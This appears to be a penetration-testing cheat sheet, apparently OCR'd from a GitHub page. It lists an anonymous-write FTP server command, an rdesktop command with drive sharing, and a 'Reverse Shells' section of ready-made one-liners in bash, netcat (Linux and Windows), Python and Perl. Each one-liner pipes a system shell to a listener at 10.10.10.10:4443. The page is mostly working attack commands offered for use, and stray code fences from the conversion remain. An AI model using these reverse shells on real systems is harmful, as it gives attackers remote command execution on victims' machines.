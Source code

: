 FTP Server


# Install pyftpdlib
pip install pyftpdlib

# Run (-w flag allows anonymous write access)
python -m pyftpdlib -p 21 -w
```

**Reverse Shells**

Bash shell


bash -i >& /dev/tcp/10.10.10.10/4443 0>&1
```

Netcat without -e flag


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
```

Netcat Linux


nc -e /bin/sh 10.10.10.10 4443
```

Netcat Windows


nc -e cmd.exe 10.10.10.10 4443
```

Python


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Perl


perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Remote Desktop**

Remote Desktop for windows with share and 85% screen


rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```
